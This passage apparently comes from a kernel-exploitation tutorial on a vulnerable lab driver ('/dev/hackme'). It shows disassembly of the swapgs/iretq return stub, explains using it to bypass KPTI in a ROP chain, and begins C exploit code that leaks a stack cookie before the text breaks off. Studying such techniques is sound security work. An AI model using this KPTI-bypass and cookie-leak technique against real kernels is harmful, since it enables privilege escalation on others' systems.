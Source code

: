 ```
│       ┌─< 0xffffffff81200f44      eb43           jmp 0xffffffff81200f89
[0xffffffff81200f41]> s 0xffffffff81200f89
[0xffffffff81200f89]> pdb
│           ; CODE XREF from fcn.ffffffff812010d0 @ 0xffffffff81200f44(x)
│           0xffffffff81200f89      58             pop rax
│           0xffffffff81200f8a      5f             pop rdi
│           0xffffffff81200f8b      ff15f7f0e300   call qword [0xffffffff82040088]  ; swapgs
│           0xffffffff81200f91      ff25e9f0e300   jmp qword [0xffffffff82040080]   ; iretq
```

The `swapgs` and `iretq` can be found in the last call and the jmp.
Apparently, this small stub is still mapped in memory, even when we are in
user mode, as it is necessary to leave the kernel. I do not exactly
know, why this cannot be removed and needs to be accessible from user
mode, but apparently that is how things are. Hence, we can use it to
bypass KPTI.

The plan is to jump to
`swapgs_restore_regs_and_return_to_usermode+22`, as that is the part
where the push operations begin. Note that at the start of
`0xffffffff81200f89` there are two additional pop instructions that we
have to take care of.

What is left is to exchange the `swapgs` and `iretq` in our ROP chain
with `swapgs_restore_regs_and_return_to_usermode+22` and two dummy
arguments that will be popped to RAX and RDI.

The full code is shown below.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers

void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"